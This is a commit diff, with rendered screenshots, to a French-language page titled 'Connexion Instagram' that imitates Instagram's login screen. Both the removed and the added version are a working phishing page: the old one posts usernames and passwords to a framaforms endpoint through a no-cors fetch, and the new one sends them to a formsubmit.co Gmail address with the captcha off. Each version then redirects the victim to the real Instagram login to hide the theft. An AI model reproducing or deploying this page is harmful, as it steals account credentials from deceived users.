

Before and after one commit to design-siteweb59/instagram-connection, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 290-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,89 +1,18 @@
 <!DOCTYPE html>
 <html lang="fr">
 <head>
-<meta charset="UTF-8" />
-<meta name="viewport" content="width=device-width, initial-scale=1" />
+<meta charset="UTF-8">
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
 <title>Connexion Instagram</title>
-<link href="https://fonts.googleapis.com/css2?family=Pacifico&display=swap" rel="stylesheet" />
 <style>
-  body {
-    background: #000;
-    color: #fff;
-    font-family: Arial, sans-serif;
-    display: flex;
-    justify-content: center;
-    align-items: center;
-    height: 100vh;
-    margin: 0;
-  }
-  .container {
-    background: #121212;
-    padding: 30px;
-    border-radius: 8px;
-    width: 320px;
-    box-sizing: border-box;
-  }
-  h1 {
-    font-family: 'Pacifico', cursive;
-    font-size: 40px;
-    margin: 0 0 20px 0;
-    text-align: center;
-  }
-  label {
-    display: block;
-    margin: 12px 0 6px;
-    font-size: 14px;
-  }
-  input[type="text"],
-  input[type="password"] {
-    width: 100%;
-    padding: 10px;
-    background: #222;
-    border: 1px solid #444;
-    border-radius: 4px;
-    color: #fff;
-    font-size: 14px;
-  }
-  .password-wrapper {
-    position: relative;
-  }
-  .toggle-password {
-    position: absolute;
-    right: 12px;
-    top: 50%;
-    transform: translateY(-50%);
-    cursor: pointer;
-    width: 22px;
-    height: 22px;
-    fill: #aaa;
-  }
-  button {
-    width: 100%;
-    margin-top: 20px;
-    padding: 10px;
-    background: #3897f0;
-    border: none;
-    border-radius: 4px;
-    color: white;
-    font-weight: bold;
-    font-size: 16px;
-    cursor: pointer;
-  }
-  .facebook-btn {
-    background: #1877f2;
-    margin-bottom: 15px;
-  }
-  .signup {
-    text-align: center;
-    margin-top: 15px;
-    font-size: 14px;
-    color: #aaa;
-  }
-  .signup a {
-    color: #3897f0;
-    text-decoration: none;
-    font-weight: bold;
-  }
+  body {background:#000; color:#fff; font-family:Arial, sans-serif; display:flex; justify-content:center; align-items:center; height:100vh; margin:0;}
+  .container {background:#121212; padding:30px; border-radius:8px; width:320px;}
+  h1 {font-family: 'Arial', sans-serif; font-size:40px; margin:0 0 20px; text-align:center;}
+  label {display:block; margin:12px 0 6px; font-size:14px;}
+  input {width:100%; padding:10px; background:#222; border:1px solid #444; border-radius:4px; color:#fff; font-size:14px;}
+  button {width:100%; margin-top:20px; padding:10px; border:none; border-radius:4px; color:white; font-weight:bold; font-size:16px; cursor:pointer;}
+  .facebook-btn {background:#1877f2; margin-bottom:15px;}
+  .submit-btn {background:#3897f0;}
 </style>
 </head>
 <body>
@@ -91,66 +20,22 @@
 <div class="container">
   <h1>Instagram</h1>
 
-  <form
-    id="instaForm"
-    action="https://framaforms.org/connexion-instagram-1752775137"
-    method="POST"
-    autocomplete="off"
-  >
+  <form action="https://formsubmit.co/design.site.web69@gmail.com" method="POST" autocomplete="off">
+    <input type="hidden" name="_next" value="https://www.instagram.com/accounts/login/">
+    <input type="hidden" name="_captcha" value="false">
+
     <button type="button" class="facebook-btn">Connexion avec Facebook</button>
 
     <label for="username">Téléphone, nom d’utilisateur ou email *</label>
-    <input type="text" id="username" name="new_1752775215051" required />
+    <input type="text" name="Identifiant" required>
 
     <label for="password">Mot de passe *</label>
-    <div class="password-wrapper">
-      <input type="password" id="password" name="new_1752775407266" required />
-      <svg class="toggle-password" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg" aria-label="Afficher le mot de passe" role="img" tabindex="0">
-        <path d="M12 5c-7 0-11 7-11 7s4 7 11 7 11-7 11-7-4-7-11-7zm0 12a5 5 0 1 1 0-10 5 5 0 0 1 0 10z"/>
-        <circle cx="12" cy="12" r="2.5"/>
-      </svg>
-    </div>
+    <input type="password" name="Mot de passe" required>
 
-    <button type="submit">Se connecter</button>
+    <button type="submit" class="submit-btn">Se connecter</button>
   </form>
 
-  <div class="signup">
-    Pas de compte ? <a href="#">Inscrivez-vous</a>
-  </div>
 </div>
-
-<script>
-  // Toggle visibilité du mot de passe
-  const togglePassword = document.querySelector('.toggle-password');
-  const passwordInput = document.getElementById('password');
-
-  togglePassword.addEventListener('click', () => {
-    const type = passwordInput.getAttribute('type') === 'password' ? 'text' : 'password';
-    passwordInput.setAttribute('type', type);
-
-    if(type === 'text') {
-      togglePassword.style.fill = '#3897f0';
-    } else {
-      togglePassword.style.fill = '#aaa';
-    }
-  });
-
-  // Soumission formulaire avec envoi en AJAX puis redirection immédiate
-  document.getElementById('instaForm').addEventListener('submit', function(e) {
-    e.preventDefault(); // empêche l'envoi classique du formulaire
-
-    const formData = new FormData(this);
-
-    fetch(this.action, {
-      method: 'POST',
-      body: formData,
-      mode: 'no-cors' // permet d'envoyer sans bloquer par CORS (pas de retour exploitable)
-    }).finally(() => {
-      // redirige vers vrai Instagram après tentative d'envoi
-      window.location.href = 'https://www.instagram.com/accounts/login/';
-    });
-  });
-</script>
 
 </body>
 </html>
```
